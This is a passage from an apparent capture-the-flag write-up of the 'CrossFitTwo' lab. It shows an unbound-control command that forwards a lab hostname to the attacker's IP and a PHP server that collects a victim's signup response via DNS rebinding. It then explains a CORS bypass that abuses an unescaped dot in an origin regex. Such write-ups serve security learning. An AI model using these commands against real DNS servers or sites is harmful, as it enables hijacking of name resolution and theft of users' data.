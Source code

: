 Save as `password-reset.php` in the www directory.

And execute same [DNS Rebinding](#dns-rebinding) attack. If everything goes well we'll get a extra request that contains signup response.
```bash
unbound-control -c unbound.conf -s 10.10.10.232 forward_add +i ex-exployees.crossfit.htb 10.10.15.71
sudo php -S 0.0.0.0:80
```

![](/assets/img/posts/crossFitTwo/csrf-blocked.png)

After some time get requests from victim but don't get any response of signup.

When debug php file in local browser, found "Cross-Origin Request Blocked"

![](/assets/img/posts/crossFitTwo/CORP-block.png)

### CORS Bypass using host header

from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-implementation-example-2), There is a server misconfiguration scenario where the dot was not escaped correctly. something like this: `^api.example.com$` instead of `^api\.example.com$`. Thus, the dot can be replaced with any letter to gain access from a third-party domain.
